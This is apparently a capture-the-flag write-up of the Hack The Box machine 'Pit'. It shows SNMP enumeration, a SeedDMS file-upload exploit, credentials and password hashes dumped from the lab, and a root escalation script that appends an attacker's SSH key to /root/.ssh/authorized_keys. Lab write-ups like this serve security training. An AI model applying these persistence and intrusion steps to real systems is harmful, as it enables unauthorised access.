# Pit

## Pit

## Credentials

### Plaintext

| User     | Password      | Note                                             |
| -------- | ------------- | ------------------------------------------------ |
| michelle | michelle      | SeedDMS, dms-pit.htb/seeddms51x/seeddms          |
| seeddms  | ied^ieY6xoquu | /var/www/html/seeddms51x/conf/settings.xml       |
| seeddms  | seeddms       | sqlite /home/www-data/seeddms51x/data/content.db |

### Hashes

| User     | Hash                             | Note            |
| -------- | -------------------------------- | --------------- |
| admin    | 155dd275b4cb74bd1f80754b61148863 | from seeddms sb |
| michelle | 2345f10bb948c5665ef91f6773b3e455 | same            |
| jack     | 682d305fdaabc156430c4c6f6f5cc65d | same            |

## Enumeration

### nmap

#### TCP Scan

```bash
# Nmap 7.91 scan initiated Sun May 16 10:02:25 2021 as: nmap -p22,80,9090 -sC -sV -oA nmap/detailed 10.129.107.110
Nmap scan report for 10.129.107.110
Host is up (0.11s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
|_  256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
80/tcp   open  http            nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
9090/tcp open  ssl/zeus-admin?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     Cross-Origin-Resource-Policy: same-origin
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|_    margin: 0 0 10p
| ssl-cert: Subject: commonName=dms-pit.htb/organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
| Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1
| Not valid before: 2020-04-16T23:29:12
|_Not valid after:  2030-06-04T16:09:12
|_ssl-date: TLS randomness does not represent time
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port9090-TCP:V=7.91%T=SSL%I=7%D=5/16%Time=60A12635%P=x86_64-pc-linux-gn
...[snip]...
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sun May 16 10:05:44 2021 -- 1 IP address (1 host up) scanned in 199.21 seconds

```

Here the `ssl-cert` field tells that domain name is `dms-pit.htb`

#### UDP Scan

```bash
sudo nmap  10.10.10.241 -sU                                                                                                                                                                                  1 ⨯
Starting Nmap 7.91 ( <https://nmap.org> ) at 2021-05-16 13:52 EDT
Stats: 0:03:54 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 24.61% done; ETC: 14:08 (0:11:57 remaining)
Stats: 0:07:58 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 47.81% done; ETC: 14:09 (0:08:42 remaining)
Nmap scan report for dms-pit.htb (10.10.10.241)
Host is up (0.046s latency).
Not shown: 999 filtered ports
PORT    STATE         SERVICE
161/udp open|filtered snmp

Nmap done: 1 IP address (1 host up) scanned in 1017.82 seconds

```

Revealed that on port `161` service `snmp` is running

### Port 9090

<figure><figcaption></figcaption></figure>

New hostname `pit.htb`. Fuzzing discovered the endpoint `/ping` that shows service name `cockpit`

<figure><figcaption></figcaption></figure>

Which appear to be [https://github.com/cockpit-project/cockpit](https://github.com/cockpit-project/cockpit)

### Port 80

<figure><figcaption></figcaption></figure>

Looks just like `nginx` test website

#### Virtual host

<figure><figcaption></figcaption></figure>

`dms-pit.htb` is served on port `80` and `9090` but here returns `403 Forbidden`

### SNMP

<figure><figcaption></figcaption></figure>

With `public` community string dumping a lot information was possible including `nsExtendObjects` that leaked user `michelle` and `SELinux Roles` as well as system version `CentOs Linux release 8.3.2011`

```bash
snmpwalk -v2c -c public 10.10.10.241 1 # 1 at the end is to query all the records
...[snip]...
UCD-SNMP-MIB::prCount.1 = INTEGER: 3
UCD-SNMP-MIB::prErrorFlag.1 = INTEGER: noError(0)
UCD-SNMP-MIB::prErrFix.1 = INTEGER: noError(0)
UCD-SNMP-MIB::prErrFixCmd.1 = STRING:
UCD-SNMP-MIB::dskIndex.1 = INTEGER: 1
UCD-SNMP-MIB::dskIndex.2 = INTEGER: 2
UCD-SNMP-MIB::dskPath.1 = STRING: /
UCD-SNMP-MIB::dskPath.2 = STRING: /var/www/html/seeddms51x/seeddms
UCD-SNMP-MIB::dskDevice.1 = STRING: /dev/mapper/cl-root
UCD-SNMP-MIB::dskDevice.2 = STRING: /dev/mapper/cl-seeddms
UCD-SNMP-MIB::dskMinimum.1 = INTEGER: 10000
UCD-SNMP-MIB::dskMinimum.2 = INTEGER: 100000
UCD-SNMP-MIB::dskMinPercent.1 = INTEGER: -1
UCD-SNMP-MIB::dskMinPercent.2 = INTEGER: -1
UCD-SNMP-MIB::dskTotal.1 = INTEGER: 2611200
UCD-SNMP-MIB::dskTotal.2 = INTEGER: 125600
UCD-SNMP-MIB::dskAvail.1 = INTEGER: 350764
UCD-SNMP-MIB::dskAvail.2 = INTEGER: 75496
...[snip]...

```

Command returned interesting string `/var/www/htmlseeddms51x/seeddms` as this could indicate another web application running on the server.

### SeedDMS

On port 80 `SeedDMS` was accessible on `dms-pit.htb/seeddms51x/seeddms`

## SeedDMS

### Login page

<figure><figcaption></figcaption></figure>

The obtained user `michelle` was using her name as a password that allowed to login to `SeedDMS`

<figure><figcaption></figcaption></figure>

### Version

Upgrade note from administrator says that version was upgraded to `5.1.15`

### Users

Insider `Docs/Users` directory was listed one additional user `Jack`

<figure><figcaption></figcaption></figure>

### Code Execution

User can add any file to the server and access it by going to the `/seeddms51x/data/1048576/31/1.php` url where `data, 1048576 and 1.php` are hardcoded values and `31` is `DocumentID` and this can be obtained from the URL

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Exploit source: [https://www.exploit-db.com/exploits/47022](https://www.exploit-db.com/exploits/47022)

#### Reverse Shell

Reverse shell was unsuccessful as returned permission denied


#### Enumeration

Inside `/var/www/html/seeddms51x/conf/settings.xml` password for `sql` database was found `seeddms:ied^ieY6xoquu`

<figure><figcaption></figcaption></figure>

As `Admin` note said the version was updated to `5.1.15` the version from the database says `5.1.0`

Another database credential found this time to `sqlite` database

<figure><figcaption></figcaption></figure>

#### MySQL Database

With obtained credentials querying the database was possible

<figure><figcaption></figcaption></figure>

And dumping the users credentials

<figure><figcaption></figcaption></figure>

## CentOs Cockpit

Service running on port 9090 allowed login as `michelle` with password `ied^ieY6xoquu` obtained from `settings.xml`

<figure><figcaption></figcaption></figure>

## Privilege Escalation

The script `/usr/bin/monitor` is running when querying the snmp protocol

<figure><figcaption></figcaption></figure>

User `michelle` can write to the `/usr/local/monitoring` but can't read the directory content

<figure><figcaption></figcaption></figure>

### PoC

User `michelle` can write to this directory


### Writing public key to root authorized\_keys


```bash
cat > /usr/local/monitoring/check-soviet.sh
#!/bin/bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDS7fvOiP06eOcsnCYig+yt4ocXLjdT5VIsn7FoNvL0Xqm1iV0UUw5EvD8AE4IMBi5Xj7gSNIceHqXwV9Yp47g1qoqEfkvDms+e7D2JJOBrAs32skdwo/u0xAseEvtnW2fwTsI7acrfq4lWsViWTrTCtV2x9C5IZWQPxyyXiK0xTBPUMEC5RA8ZLhaWPJBOCSrC1VE7466hUB2VIqmhg1MXuR2afJtaGqOY8/ExkxXIJ2QTV5rcYDvVBLdZu7Ngvtsa1JEgyAHJO0iz9AgRc3+eomyvFCvlpsYw7rN3Nz97TmwIteyl//OTqaNvmTHiV8ZfNJZYQ5zU+9JJ4eXQn/iP8yTVu6OBl1irBUnKajjcOE/WmyZ7+iiszwDUB+nEPp68yjyrn4ph/UlipZ6O5X5damOcBMFMVX69cvrUdVO7TuQTx+u5b+j3V6DPVf5d/4IHDatxdjLvSCrhozwQUEZlqi4MGL/7pm6wgkiTh93fwhUcswEpq81aoD19DLYow/U= kali@kali" >> /root/.ssh/authorized_keys
echo "Is this working? - Soviet $(whoami)"
^D

```

After running command `snmpwalk -v2c -c public 10.10.10.241 1` or `snmpwalk -v2c -c public 10.10.10.241 nsExtendObjects`

<figure><figcaption></figcaption></figure>

Generated ssh key is added to `/root/.ssh/authorized_keys` and allowed to login via `ssh`

<figure><figcaption></figcaption></figure>
